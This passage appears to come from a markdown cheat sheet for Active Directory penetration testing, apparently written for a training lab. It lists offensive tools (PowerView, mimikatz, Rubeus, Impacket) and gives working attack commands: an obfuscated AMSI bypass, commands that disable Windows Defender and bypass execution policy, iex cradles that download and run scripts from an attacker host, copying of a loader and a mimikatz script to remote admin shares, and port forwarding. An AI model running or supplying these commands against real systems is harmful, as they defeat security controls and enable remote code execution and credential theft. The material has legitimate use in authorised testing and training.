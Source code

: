 # Tools

- [PowerView](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- [InvisiShell](https://github.com/OmerYa/Invisi-Shell)
- [Netexec](https://www.netexec.wiki/)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- Impacket
- hashcat
- mimiatz
- Rubeus
- Bloodhound
- Kerbrute
- [Invoke-SessionHunter](https://github.com/Leo4j/Invoke-SessionHunter)

# Powershell

## AMSI Bypass

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Powershell Security

```powershell
# https://github.com/OmerYa/Invisi-Shell
RunWithRegistryNonAdmin.bat

# Execution policy
powershell -ep bypass

# Disable Defender
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### Others
```powershell
# Downloads
iex (iwr http://[IP:port]/sbloggingbypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://[IP:port]/PowerView.ps1'))

# Copy
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\C$\'Program Files'

# Port Forwarding
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
>[Up](#table-of-contents) :arrow_up:
# 2. Enumeration
